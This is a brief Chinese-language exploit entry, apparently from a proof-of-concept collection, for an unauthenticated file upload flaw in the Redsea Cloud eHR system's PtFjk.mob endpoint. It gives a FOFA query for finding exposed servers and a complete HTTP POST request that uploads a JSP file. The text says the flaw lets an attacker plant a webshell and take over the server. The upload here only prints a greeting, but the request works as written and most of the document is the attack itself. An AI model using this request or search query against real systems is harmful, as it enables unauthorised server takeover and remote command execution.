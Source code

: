 ## 红海云eHR-PtFjk.mob存在任意文件上传漏洞

红海云EHR系统PtFjk.mob接口处存在未授权文件上传漏洞，攻击者可上传webshell来命令执行，获取服务器权限。

## fofa
```
body="/RedseaPlatform/skins/images/favicon.ico"
```


## poc
```
POST /RedseaPlatform/PtFjk.mob?method=upload HTTP/1.1
Host: 
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryt7WbDl1tXogoZys4

------WebKitFormBoundaryt7WbDl1tXogoZys4
Content-Disposition: form-data; name="fj_file"; filename="11.jsp"
Content-Type:image/jpeg

<% out.print("hello,eHR");%>
------WebKitFormBoundaryt7WbDl1tXogoZys4--
```
